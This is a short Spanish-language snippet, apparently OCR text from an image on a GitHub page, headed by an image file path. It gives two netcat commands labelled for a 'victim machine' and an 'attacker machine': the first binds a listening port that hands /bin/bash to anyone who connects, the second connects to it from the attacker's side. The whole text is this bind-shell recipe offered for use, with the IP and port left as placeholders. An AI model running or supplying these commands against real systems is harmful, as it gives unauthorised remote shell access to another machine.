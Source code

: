 -Ejecutar desde la máquina victima
nc -nlvp XXX (puerto temporal) -e /bin/bash

-Ejecutar desde la máquina atacante
nc XXX.XXX.XXX.XXX XXX (ip y puerto de la victima)